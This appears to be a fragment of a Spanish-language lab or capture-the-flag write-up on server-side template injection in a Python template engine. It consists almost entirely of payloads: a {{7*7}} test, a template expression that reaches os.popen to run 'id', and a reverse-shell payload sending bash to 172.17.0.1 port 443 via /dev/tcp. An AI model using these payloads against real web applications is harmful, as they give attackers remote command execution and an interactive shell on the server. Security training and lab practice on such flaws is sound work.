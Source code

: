 Comprobamos si es vulnerable a SSTI

{{7*7}}

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

REVERSE SHELL

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/443 0>&1\'').read() }}

